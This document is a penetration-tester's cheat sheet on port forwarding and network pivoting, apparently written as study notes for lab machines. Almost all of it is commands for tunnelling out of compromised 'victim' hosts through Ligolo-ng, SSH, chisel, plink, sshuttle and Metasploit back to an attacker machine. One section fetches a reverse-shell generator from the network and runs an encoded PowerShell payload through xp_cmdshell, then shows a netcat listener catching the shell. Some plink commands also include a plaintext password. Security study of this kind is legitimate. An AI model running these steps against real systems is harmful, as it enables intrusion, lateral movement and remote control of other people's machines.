 # Port Forwarding / Pivoting

<details>

<summary>Ligolo-ng</summary>

On Kali:

```bash
On Kali:
    ./proxy_linux64 -selfcert -laddr 0.0.0.0:443 

    After client connects:
        In Ligolo-ng session: 
            session
            ifconfig
            autoroute
        In event that route already exists, in Kali terminal:
            sudo ip route del 172.16.218.0/24 dev <interface name>
            OR..
            ip link delete <netw> 
```

On pivot machine:

```bash
.\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert
```

**Double pivoting:**

<pre class="language-bash"><code class="lang-bash"># In Ligolo session
<strong>listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80
</strong>
# In Internal Machine B
.\agent_win64.exe -connect &#x3C;Pivot_A_IP>:80 -ignore-cert
</code></pre>

### Manual Ligolo Commands:

<pre class="language-bash"><code class="lang-bash">sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.210.0/24 dev ligolo

In Ligolo: 
    session --> select the new session
<strong>    start
</strong></code></pre>

</details>

<details>

<summary>Dynamic Port Forwarding</summary>

On Kali machine:

```bash
ssh -f -N -D 1080 j0hn@10.11.1.252
```

Edit `/etc/proxychains.conf`

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 	127.0.0.1 1080
```

Using tools:

```bash
proxychains -q curl http://10.3.3.13
```

For burp, see [here](../configurations/burpsuite-upstream-proxy.md)

</details>

<details>

<summary>Reverse Port Forwarding</summary>

On Kali:

```bash
service ssh start
```

On Target:&#x20;

```bash
ssh -f -N -R 44544:127.0.0.1:445 kali@192.168.45.241
```

* Opens port 44544 on kali and forwards to the target's port 445.

</details>

<details>

<summary>Sshuttle</summary>

On Kali:

* SSH creds of edge machine
* Internal network to be exposed

```bash
sshuttle -r sean@10.11.1.251 10.1.1.0/24
```

</details>

<details>

<summary>Chisel &#x26; Proxychains</summary>

### Kill port 8080

```bash
fuser -k 8080/tcp
```

### On Kali:

* Copied chisel [pre-compiled](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

```bash
chisel server -p 8080 --reverse
```

* Edit `/etc/proxychains.conf`

```bash
socks5 127.0.0.1 1080
```

### On Victim:

```bash
chisel client 192.168.45.191:8080 R:socks
```

## Configure Burp for Web Browsing via Chisel

```bash
Proxy Type: SOCKS5
Proxy IP address: 127.0.0.1
Port: 1080
```

## Proxychains Nmap Usage

* Have to use TCP Connect scan (-sT)
* ICMP doesn’t work over proxychains (hence need -Pn)
* vv slow, could instead install & use nmap on the compromised host.

```bash
proxychains nmap ..
```

</details>

<details>

<summary>Reverse Port Forward to Remote Server (when victim can't reach attacker directly)</summary>

[https://simplecheatsheet.com/ssh-tunnel-proxy/](https://simplecheatsheet.com/ssh-tunnel-proxy/)

### Background

* Attacker has access to MS01.
* Chisel is already in place but MS02 in internal network still unable to reach attacker.

### On Kali:

```bash
ssh web_svc@192.168.218.147 -N -R *:7777:localhost:7777
```

### On Victim:

* Insert in MS01's internal IP as Reverse IP
* Reverse port is 7777

```bash
wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py 10.10.108.147 7777
SQL> xp_cmdshell "powershell -e JABj..."
```

### On Kali:

```bash
nc -lvp 7777
# listening on [any] 7777 ...
# connect to [127.0.0.1] from localhost [127.0.0.1] 39614

# PS C:\Windows\system32> whoami
# nt service\mssql$sqlexpress
```

</details>

<details>

<summary>Exposing An Internal port from Windows Victim</summary>

### Using Plink:

To forward victim port 80 to kali's port 80

On Windows victim:

```bash
plink.exe -N -R 80:127.0.0.1:80 kali@192.168.45.5 -pw .8monitor
```

#### If port 22 is blocked --> try other ports

```bash
# Inside /etc/ssh/sshd_config
	  14 Port 139
	  15 AddressFamily any
	  16 ListenAddress 0.0.0.0
  	  17 ListenAddress ::

# On Victim
plink.exe -N -R 8888:127.0.0.1:8888 kali@10.10.14.2 -pw .8monitor -P 139
```

### Using Chisel:

To forward victim's port 3306 to kali's port 3306

On Kali:

```bash
chisel server -p 8080 --reverse
```

On Victim:

```bash
chiselx64.exe client 192.168.45.5:8080 R:3306:127.0.0.1:3306
```

</details>

<details>

<summary>Local Port Forwarding</summary>

To forward victim port 80 to kali's port 8000.

On Kali:

```bash
ssh -N -L 8000:192.168.165.99:80 ariah@192.168.165.99
```

</details>

<details>

<summary>Double Pivoting</summary>

### Use port 2080 instead

```bash
proxychains -q ssh -f -N -D 2080 -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss bill@10.1.1.1
```

### Copy /etc/proxychains.conf, edit the port to 2080

```bash
 111 [ProxyList]
 112 # add proxy here ...
 113 # meanwhile
 114 # defaults set to "tor"
 115 socks5  127.0.0.1 2080
```

### Usage&#x20;

```bash
proxychains -q -f /home/kali/Documents/offsec/10.1.1.1/proxychains_2080.conf nmap --top-ports 100 -sT -Pn 10.3.3.14
```

</details>

<details>

<summary>Metasploit's Autoroute</summary>

```bash
background
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks_proxy 
set srvhost 127.0.0.1
exploit -j
```

Then, in Kali:

```bash
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf'
proxychains rdesktop 192.168.122.10
```

</details>

<details>

<summary>Links</summary>

[https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61](https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61)

[https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)

[https://www.ctfnote.com/red-teaming/pivoting](https://www.ctfnote.com/red-teaming/pivoting)

</details>

